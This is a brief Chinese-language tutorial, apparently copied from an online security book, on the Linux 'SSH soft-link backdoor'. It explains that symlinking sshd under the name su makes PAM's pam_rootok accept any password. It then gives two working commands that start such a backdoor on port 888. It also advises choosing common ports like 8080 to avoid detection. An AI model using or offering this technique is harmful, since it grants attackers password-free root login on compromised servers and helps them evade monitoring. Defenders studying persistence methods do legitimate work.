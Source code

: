 # SSH 软连接后门

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/3.html](http://book.iwonder.run/安全技术/Linux 后门/3.html)

软连接后门的原理是利用了 PAM 配置文件的作用，将 sshd 文件软连接名称设置为 su，这样应用在启动过程中他会去 PAM 配置文件夹中寻找是否存在对应名称的配置信息（su），然而 su 在 pam_rootok 只检测 uid 0 即可认证成功，这样就导致了可以使用任意密码登录。

```
ln -sf /usr/sbin/sshd /tmp/su
/tmp/su -oPort=888 
```

![image](img/171f506f4fa489c61d60f1089b22d439.png)

优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成 8081，8080 等端口。

